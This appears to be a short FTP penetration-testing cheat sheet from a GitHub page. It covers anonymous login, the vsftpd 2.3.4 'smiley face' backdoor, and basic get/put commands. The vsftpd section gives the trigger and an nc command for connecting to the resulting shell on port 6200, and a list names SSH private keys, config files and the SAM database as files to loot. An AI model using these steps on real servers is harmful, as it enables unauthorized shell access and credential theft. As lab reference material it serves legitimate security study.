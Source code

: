 ## Anonymous Access

There exist an anonymous user for which both username and password is __anonymous__.


## Smiley Face vulnerability in vsftpd 2.3.4

Attempt login with username ending at smiley face :) and any invalid password. This will open a backdoor on port 6200. Simply connect to this port and get the shell.

```
nc -vn 192.168.145.133 6200
```

## Check for valuable files

```
SSH Key files
/home/user/.ssh/authorized_keys
/home/usr/.ssh/id_rsa

Config files
ftp/web/cms/http server and other services

SAM Database and security files
Check for passwords and hashes
```

## Upload or Download files

```
get foo.txt
put foot.txt
mget foo1.txt foo2.txt
mput foo1.txt foo2.txt
```